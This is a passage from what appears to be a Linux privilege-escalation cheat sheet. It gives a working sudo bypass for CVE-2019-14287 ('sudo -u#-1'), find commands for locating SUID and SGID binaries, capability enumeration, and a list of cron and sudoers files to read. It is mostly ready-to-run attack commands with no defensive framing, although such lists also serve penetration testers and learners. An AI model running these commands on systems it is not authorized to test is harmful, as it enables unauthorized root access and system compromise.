 ### Sudo Security Bypass (CVE-2019-14287) :
```bash
# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash
```
```bash
sudo -u#-1 <command>
```

### Sudo Buffer Overflow (pwfeedback):
check out exploit

### SUID Escalation :
```bash
find / -type f -perm -u=s 2> /dev/null
find / -type f -perm -g=s 2> /dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

###  Capabilities :
```bash
getcap -r / 2>/dev/null
capsh --print
```


###  Privilege escalation using Scheduled-Tasks:
```bash
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root
crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
